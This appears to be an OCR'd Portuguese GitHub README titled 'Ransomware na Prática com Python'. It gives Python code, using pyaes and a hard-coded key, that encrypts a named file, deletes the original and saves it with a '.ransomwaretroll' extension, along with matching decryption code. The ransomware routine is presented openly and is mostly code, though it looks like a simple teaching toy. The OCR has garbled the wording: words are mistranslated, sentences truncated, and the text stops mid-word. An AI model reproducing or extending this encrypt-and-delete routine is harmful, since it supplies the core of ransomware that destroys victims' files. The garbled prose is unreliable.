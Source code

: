# Ransomware
Ransomware na Prática com Python

Pré-requisitos
Antes de executar os códigos de descrição e criptografia, é necessário ter o Python instalado em seu sistema. Além disso, você deve ter uma biblioteca pyaesinstalada. Você pode conectá-lo usando o comandopip install pyaes .

Código de Descripción
Aqui está o código base que pode ser usado para descrever arquivos criptografados pelo Ransomware Troll:

import os
import pyaes

# Nome do arquivo criptografado
file_name = "arquivo.txt.ransomwaretroll"

# Abrir o arquivo criptografado em modo de leitura binária
file = open(file_name, "rb")
file_data = file.read()
file.close()

# Chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

# Realizar a descriptografia
decrypt_data = aes.decrypt(file_data)

# Remover o arquivo criptografado
os.remove(file_name)

# Criar o arquivo descriptografado
new_file = "arquivo.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
-se de substituir "arquivo.txt.ransomwaretroll"pelo nome do arquivo criptografado real que você deseja descrever e"testeransomwares" pela chave correta de descritiva fornecida pelo atacante.

Código de Criptografia
Aqui está o código base que pode ser usado para criptografar arquivos usando o Ransomware Troll:

import os
import pyaes

# Nome do arquivo a ser criptografado
file_name = "arquivo.txt"

# Abrir o arquivo em modo de leitura binária
file = open(file_name, "rb")
file_data = file.read()
file.close()

# Remover o arquivo original
os.remove(file_name)

# Chave para criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

# Realizar a criptografia
crypto_data = aes.encrypt(file_data)

# Nome do novo arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}', 'wb')
new_file.write(crypto_data)
new_file.close()
-se de substituir "arquivo.txt"pelo nome do arquivo que você deseja criptografar e"testeransomwares" pela chave correta de criptografia. O código criptografado será o arquivo selecionado e salvará uma versão criptografada com a extensão `.ransom
